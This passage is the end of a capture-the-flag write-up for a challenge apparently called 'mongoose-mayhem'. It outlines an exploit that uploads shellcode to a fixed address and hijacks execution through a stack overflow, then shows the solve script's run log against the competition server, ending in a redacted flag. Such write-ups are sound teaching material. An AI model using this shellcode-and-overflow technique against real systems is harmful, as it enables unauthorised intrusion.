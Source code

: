 ### Wrapping it Up

To put it all together, our final exploit script does the following:

  1. Send message `20`.
     This stops the timer so we don't get extra data mixed in with the flag.
  2. Assemble and write shellcode to `0xa0180590` with messages `30` and `31`.
  3. Redirect execution by overflowing the stack with message `5c`.

Switching out the `process` for a `remote` in `solve.py` and running it:

```
kan3@a5f539fe0401:~/mongoose-mayhem$ ./solve.py
[+] Opening connection to elite-poet.satellitesabove.me on port 5012: Done
[*] Waiting for device
[*] Stopping data flow
[*] Uploading shellcode
[*] Jumping to shellcode
[+] Receiving all data: Done (240B)
[*] Closed connection to elite-poet.satellitesabove.me port 5012
[*] Got flag!
flag{sierra227884charlie2:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
